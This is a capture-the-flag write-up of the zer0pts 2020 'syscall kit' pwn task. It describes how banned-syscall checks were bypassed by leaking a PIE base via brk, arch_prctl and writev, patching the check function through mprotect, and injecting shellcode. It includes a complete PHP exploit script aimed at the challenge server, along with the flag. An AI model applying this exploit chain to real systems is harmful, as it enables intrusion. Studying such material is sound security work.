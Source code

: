 # sycall kit - zer0pts CTF 2020 (pwn, 671p, 12 solved)  
## Introduction

syscall kit is a pwn task.

An archive containing a binary, and its source code is provided.

The binary lets the user call syscalls with 3 arguments of its choice. Some  
syscalls (deemed to be dangerous) are banned. The user can call up to 10  
syscalls before the program exits.

## Analysis

There are two problems making this task hard : every dangerous (read:  
interesting) syscalls are banned.  Besides, the binary is PIE, so no addresses  
are known. This means it is not possible to leak addresses, or pass valid  
addresses to syscalls.

The first thing to do is to retrieve an address.

This can be done with the `brk` syscall. This syscall extends the program
break  
(i.e. the heap) when the memory allocator needs additional memory.

Its signature is : `int brk(void *addr);`. The manual states the following:  
> On success, brk() returns zero.  On error, -1 is returned, and errno is set
> to  
> ENOMEM.

However, it also states the following in the `NOTES` section:  
> The return value described above for brk() is the behavior provided by the  
> glibc wrapper function for the Linux brk() system call. [...]  
> However, the actual Linux system call returns the new program break on  
> success.

`brk(0x10000)` returns the start of the heap + 0x10000.

The heap can now be used as a scratchpad.

Calling the `arch_prctl` syscall with values `ARCH_SET_GS` and `ARCH_GET_GS`
can  
be used to write 6-bytes values anywhere. (the value must be a valid address,  
therefore it must have the first 12 bits set to either 1 or 0.)

The following syscalls will write `0xdeadbeef` in the heap :  
```c  
arch_prctl(ARCH_SET_GS, 0xdeadbeef);  
arch_prctl(ARCH_GET_GS, $heap);  
```

This primitive can be used to write two integers in the heap :

```c  
struct iovec {  
	void  *iov_base;  
	size_t iov_len;  
} s = {  
	.iov_base = heap,  
	.iov_len  = 0x2000,  
};  
```

This structure is used by the `writev` and `readv` syscalls. They are not  
blacklsited, and can be used to write 2 whole pages of the content of the heap  
to stdout.

The heap contains an address of the vtable of the `Emulator` object. This can
be  
used to determine the base address of the program.

The `mprotect` syscall can then be used to make these pages writable. This can  
be used to patch the `check` function so that it always validates syscalls :

```assembler  
31 c0 xor eax, eax  
c3    ret  
```

Once the check function has been patched, the `write` syscall can be used to
put  
a shellcode at `0x12c6`. That shellcode will get executed as soon as the
binary  
returns from the `write` syscall.

## Exploitation

The ten syscalls used to get a shell are the following :  
1. `brk(0x10000)`  
2. `arch_prctl(ARCH_SET_GS, $heap)`  
3. `arch_prctl(ARCH_GET_GS, $heap)`  
4. `arch_prctl(ARCH_SET_GS, 0x2000)`  
5. `arch_prctl(ARCH_GET_GS, $heap + 8)`  
6. `writev(STDOUT_FILENO, $heap, 1)`  
7. `mprotect($base, 0x1000, PROT_RWX)`  
8. `arch_prctl(ARCH_SET_GS, 0xC3C031)`  
9. `arch_prctl(ARCH_GET_GS, $check)`  
10. `write(0, $syscall + 0x46, 0x40)`

**Flag**: `zer0pts{n0_w4y!_i_b4nn3d_3v3ry_d4ng3r0us_sysc4ll!}`

## Appendices

### pwn.php

```php  
#!/usr/bin/php  
expectLine("=========================");  
	$t->expect("syscall: "); $t->write("$syscall\n");  
	$t->expect("arg1: ");    $t->write("$arg1\n");  
	$t->expect("arg2: ");    $t->write("$arg2\n");  
	$t->expect("arg3: ");    $t->write("$arg3\n");  
	$t->expectLine("=========================");  
}

function ret(Tube $t)  
{  
	$t->expect("retval: ");  
	return hexdec($t->readLine());  
}

function write64(Tube $t, $addr, $value)  
{  
	syscall($t, 158, 0x1001, $value);  
	ret($t);

	syscall($t, 158, 0x1004, $addr);  
	ret($t);  
}

$t = new Socket("13.231.207.73", 9006);

/* brk() */  
syscall($t, 12,  0x10000);  
$brk = ret($t) - 0x10000;  
printf("[+] heap: %X\n", $brk);

write64($t, $brk, $brk);  
write64($t, $brk + 8, 0x2000);

syscall($t, 20, 1, $brk, 1);  
$leak = $t->read(0x2000);  
ret($t);

$addr = 0;  
for($i = 0; $i < strlen($leak); $i += 8) {  
	$qword = unpack("Q", substr($leak, $i, 8))[1];  
	if(0xCE0 === (0xFFF & $qword)) {  
		$addr = $qword;  
		break;  
	}  
}

if($addr === 0)  
	throw new Exception("[!] Leak failed\n");

$base = $addr - 0x00202ce0;  
printf("[+] PIE: %X\n", $base);

/* mprotect */  
syscall($t, 10, $base, 0x2000, 7); ret($t);

/* patch */  
write64($t, $base + 0x116e, 0xC3C031);

// read after syscall  
syscall($t, 0, 0, $base + 0x000012c6, 0x40);  
$t->write(file_get_contents("shellcode"));

$t->pipe();  
```

Original writeup
(https://github.com/TFNS/writeups/blob/master/2020-03-07-zer0ptsCTF/syscall/README.md).